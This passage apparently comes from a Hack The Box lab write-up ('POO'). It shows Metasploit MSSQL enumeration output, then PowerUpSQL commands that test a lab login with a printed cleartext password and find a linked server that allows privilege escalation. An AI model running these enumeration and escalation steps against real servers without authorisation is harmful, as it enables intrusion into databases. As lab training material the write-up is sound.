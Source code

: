 ```
[*] 10.13.38.11:1433 - 	sp_replincrementlsn
[*] 10.13.38.11:1433 - Instances found on this server:
[*] 10.13.38.11:1433 - Default Server Instance SQL Server Service is running under the privilege of:
[*] 10.13.38.11:1433 - 	xp_regread might be disabled in this system
[*] Auxiliary module execution completed
```

## PowerUpSQL and MSSQL linked servers

For the next parts, we'll use a Windows 10 machine.

![MSSQL login](/assets/images/htb-writeup-poo/Screenshot_1.png)

Since our local attacker machine is not domain joined and we don't have access to the domain controller, we'll define the instance manually and test the credentials:

```
PS C:\Users\snowscan> $user = "external_user"
PS C:\Users\snowscan> $pass = "#p00Public3xt3rnalUs3r#"
PS C:\Users\snowscan> $i = "10.13.38.11,1433"
PS C:\Users\snowscan> get-sqlservercredential -verbose -instance $i -username $user -password $pass
VERBOSE: 10.13.38.11,1433 : Connection Success.
```

Next, we start auditing the configuration for weak permissions and such. We find that there is a linked server which we can access.

```
PS C:\Users\snowscan> Invoke-SQLAuditPrivServerLink -verbose -instance $i -username $user -password $pass
VERBOSE: 10.13.38.11,1433 : START VULNERABILITY CHECK: Excessive Privilege - Server Link
VERBOSE: 10.13.38.11,1433 : CONNECTION SUCCESS.
VERBOSE: 10.13.38.11,1433 : - The COMPATIBILITY\POO_CONFIG linked server was found configured with the internal_user login.
VERBOSE: 10.13.38.11,1433 : COMPLETED VULNERABILITY CHECK: Excessive Privilege - Server Link


ComputerName  : 10.13.38.11
Instance      : 10.13.38.11,1433
Vulnerability : Excessive Privilege - Linked Server
Description   : One or more linked servers is preconfigured with alternative credentials which could allow a least privilege login to escalate their privileges on a
                remote server.
Remediation   : Configure SQL Server links to connect to remote servers using the login's current security context.
Severity      : Medium
IsVulnerable  : Yes
```